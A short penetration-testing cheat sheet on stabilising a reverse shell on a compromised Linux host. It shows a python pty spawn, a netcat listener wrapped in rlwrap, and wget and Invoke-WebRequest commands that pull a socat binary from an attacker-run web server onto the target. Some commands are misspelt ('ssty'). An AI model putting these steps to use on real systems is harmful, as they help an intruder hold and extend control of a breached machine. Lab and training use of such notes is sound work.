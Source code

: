# Stabalizing a linux shell

## Host Changes
You will want to make the following changes on your host to ensure the features are passed on your reverse shell.

Turn off terminal echo, allow tab complete, arrow keys and `CTRL+C`
```sh
stty raw -echo; fg
```

Get your terminal settings with `-a` and set them manually for the reverse shell.
```sh
ssty -a
ssty rows <number>
stty cols <number>
```

## 1. Using Python
```sh
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

## 2. RLWrap
Is a program that gives access to history, tab completion, and the arrow keys. The technicque of prepending `rlwrap` to netcat is useful when interacting with windows.

```sh
sudo apt install rlwrap
rlwrap nc -lvnp 4200
```

## 3. SOCAT
- Limited to linux
- Requires [static binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)
  
Serve the binary from a temporary webserver:
```sh
python3 -m http.server 8080
wget 10.10.10.10/socat -O /tmp/socat
Invoke-WebRequest -uri 10.10.10.10/socat.exe -outfile C:\\Windows\temp\socat.exe
```
